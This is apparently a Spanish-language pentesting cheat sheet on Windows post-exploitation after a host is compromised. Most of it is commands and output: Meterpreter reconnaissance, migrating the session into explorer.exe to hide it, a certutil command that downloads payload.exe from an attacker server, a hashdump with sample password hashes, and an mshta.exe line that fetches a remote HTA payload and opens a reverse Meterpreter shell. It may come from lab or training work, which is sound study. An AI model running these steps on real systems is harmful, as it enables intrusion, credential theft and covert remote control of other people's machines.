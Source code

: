 # Pasos una vez comprometido

## Meterpreter

Una vez tenemos una shell de [[metasploit|meterpreter]], ejecutaremos lo siguiente:

```powershell
sysinfo

getprivs

shell

net user

net localgroup administrators
```

También debemos migrar la sesión a un pid más discreto:

```powershell
meterpreter > ps -S explorer.exe
Filtering on 'explorer.exe'

Process List
============

 PID   PPID  Name          Arch  Session  User          Path
 ---   ----  ----          ----  -------  ----          ----
 2372  2364  explorer.exe  x64   1        VICTIM\admin  C:\Windows\explorer.exe

meterpreter > migrate 2372
```

## Búsqueda de contraseñas

Lo primero que podemos hacer es buscar [[Windows Passwords Hashes|contraseñas o hashes]].

## Token impersonation

Mediante ciertos privilegios tal vez podemos [[Access Token Impersonation|impersonarnos un token]] de administrador.

## Subir un archivo 

Nos montamos un servidor http con [[python]].

```powershell
certutil -urlcache -f http://10.10.5.2/payload.exe payload.exe
```

# Post-Explotación

Una vez escalamos:

```powershell
meterpreter > hashdump
admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:659c8124523a634e0ba68e64bb1d822f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

## Meterpreter

### HTA Server

Si hemos escalado privilegios podemos conseguir una sesión de meterpreter con el módulo `hta_server`:

```bash
msf6 > use exploit/windows/misc/hta_server 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > run
```

Si abrimos la url que nos da en windows, se ejecutará un payload:

```powershell
mshta.exe http://10.10.41.5:8080/1BG7wz1uVd.hta
```
```bash
[*] Sending stage (176198 bytes) to 10.2.16.148
[*] Meterpreter session 1 opened (10.10.41.5:4444 -> 10.2.16.148:49769) at 2025-02-12 16:15:31 +0530
```
